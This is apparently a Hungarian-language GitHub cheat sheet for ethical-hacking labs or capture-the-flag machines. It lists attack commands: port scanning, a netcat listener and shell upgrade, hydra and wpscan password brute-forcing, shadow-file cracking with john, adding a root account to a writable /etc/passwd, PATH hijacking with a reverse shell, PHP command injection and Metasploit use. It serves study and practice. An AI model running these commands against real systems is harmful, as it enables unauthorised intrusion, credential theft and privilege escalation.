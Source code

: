# ethack
0-ik lépés ping!

## Linkek:
```
```

## Honlap ip:
```
https://172.22.214.126:1234
https://10.0.0.52
```

## Első lépés megnézni a nyitott portokat:(+ip)
```
sudo nmap -sS -p- -T5
```

## Megnézni a nyitott portokról infót:(+ip)
```
sudo nmap -sS -sC -sV -p 22,80
```

## Dirb(+http://)
```
dirb -r
```
## Ssh login
```
ssh(-p port) -i /home/kali/privkulcs root@192.168.1.110
ssh student@192.168.1.188
ssh jangow@localhost
```

## Listener
```
nc -lvnp 4444
```

## Interaktív shell
```
python -c "import pty; pty.spawn('/bin/bash')"
```

## Jelszó törés:
```
hydra -l <username> -s <port> -P <jelszavak> <ip> <kérés mód(pl: http-get)> "/path/to/login"
```

[exploit-db.com]
[gtfobins.github.io

## Rossz jogosultságok vizsgálata:
```
/etc/passwd
/etc/shadow
```
## Suid bit vizsgálata:
```
find / -perm -u=s -user root 2>/dev/null
```

## Tudjuk írni az /etc/passwd(asd a jelszó)
```
openssl passwd asd
nano /etc/passwd
miclos:opensslcuccos:0:0:/root:/bin/bash
még az utolsó nulla után mehet esetleg üzenet, ha x akkor a shadow-ban keresi
su miclos
switch user az su
```

## Ha tudjuk olvasni a passwd és shadow:
```
unshadow passwd.txt shadow.txt > john-input
john --show john-input --wordlist=/usr/share/wordlists/rockyou.txt
```

## Path hijacking
```
Keresni vagy csinálni egy file-t ami futtatható és például ls nevet adni neki és a fileba bash script ként egy reverseshell fut le vagy akármilyen script.
export PATH=/home/miclos:$PATH
```

## Mihez van jogom:
```
sudo -l
```

robots.txt

## Php ?vmi=vmi futtatás
```
vmi.php?vmi=kód a kód helyére írhatunk bármit ls-el érdemes kipróbálni utána pl python reverse shell jó lehet
```

## Jogosultság adás:
```
chmod 777
```

## Célgép hány bites:
```
arch
```

## Python http server:
```
python -m http.server port
python3 -m http.server port
wget http://ip:port/file
```

## Ha nem ip-re hivatokozik a weblap hanem pl vtcsec-re:
```
nano /etc/hosts
```

## Msfconsole:
```
search proftpd
user 5
options
set rhosts ip
options h jó e
run
néha kellhet: show payloads
set payload 5
```
## Burpsuit
```
burpsuite
ellehet vele kéréseket kapni és módosítani
```

## Wordpress feltörés:
```
wpscan --url ip --usernames <név> --passwords /usr/share/wordlists/rockyou.txt
```
